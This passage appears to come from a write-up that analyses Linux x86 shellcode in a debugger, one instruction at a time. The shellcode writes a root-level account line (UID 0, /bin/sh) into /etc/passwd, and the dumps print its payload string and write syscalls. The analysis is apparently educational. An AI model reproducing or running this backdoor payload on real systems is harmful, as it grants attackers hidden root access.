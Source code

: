 ``` 
[-------------------------------------code-------------------------]
=> 0x804a090 <shellcode+80>: pop    ecx
   0x804a091 <shellcode+81>: mov    edx,DWORD PTR [ecx-0x4]
   0x804a094 <shellcode+84>: push   0x4
   0x804a096 <shellcode+86>: pop    eax
[------------------------------------stack-------------------------]
0000| 0xbffff6d8 --> 0x804a06b ("oxdipsy:Az2MnRp7oxKXQ:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")
0004| 0xbffff6dc ("/etc//passwd")
0008| 0xbffff6e0 ("//passwd")
0012| 0xbffff6e4 ("sswd")
0016| 0xbffff6e8 --> 0x0 
0020| 0xbffff6ec --> 0x8048430 (<main+76>: mov    edi,DWORD PTR [ebp-0x4])
0024| 0xbffff6f0 --> 0x8048510 ("Shellcode Length:  %d\n")
0028| 0xbffff6f4 --> 0x28 ('(')
[------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a090 in shellcode ()
``` 
The mov instruction, moves a value from the ecx to the edx.
```
mov    edx,DWORD PTR [ecx-0x4]
``` 
Stepping into the instruction, shows that the value is 0x25–37 in decimal.
```
[----------------------------------registers-----------------------]
EAX: 0xbffff6dc ("/etc//passwd")
EBX: 0x7 
ECX: 0x804a06b ("oxdipsy:Az2MnRp7oxKXQ:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")
EDX: 0x25 ('%')
ESI: 0x0 
EDI: 0x804a069 --> 0x786f0000 ('')
EBP: 0xbffff728 --> 0x0 
ESP: 0xbffff6dc ("/etc//passwd")
EIP: 0x804a094 --> 0xcd58046a
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------]
   0x804a08f <shellcode+79>: or     bl,BYTE PTR [ecx-0x75]
   0x804a092 <shellcode+82>: push   ecx
   0x804a093 <shellcode+83>: cld    
=> 0x804a094 <shellcode+84>: push   0x4
   0x804a096 <shellcode+86>: pop    eax
   0x804a097 <shellcode+87>: int    0x80
   0x804a099 <shellcode+89>: push   0x1
   0x804a09b <shellcode+91>: pop    eax
[------------------------------------stack-------------------------]
0000| 0xbffff6dc ("/etc//passwd")
0004| 0xbffff6e0 ("//passwd")
0008| 0xbffff6e4 ("sswd")
0012| 0xbffff6e8 --> 0x0 
0016| 0xbffff6ec --> 0x8048430 (<main+76>: mov    edi,DWORD PTR [ebp-0x4])
0020| 0xbffff6f0 --> 0x8048510 ("Shellcode Length:  %d\n")
0024| 0xbffff6f4 --> 0x28 ('(')
0028| 0xbffff6f8 --> 0x8049ff4 --> 0x8049f28 --> 0x1 
[------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a094 in shellcode ()
``` 
After that, EAX is set with 4 which corresponds to SYSCALL write.
```
dipsy@ubuntu:~$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 4
#define __NR_write    4
``` 
According to the manual, the signature of the function is as follows:
```
```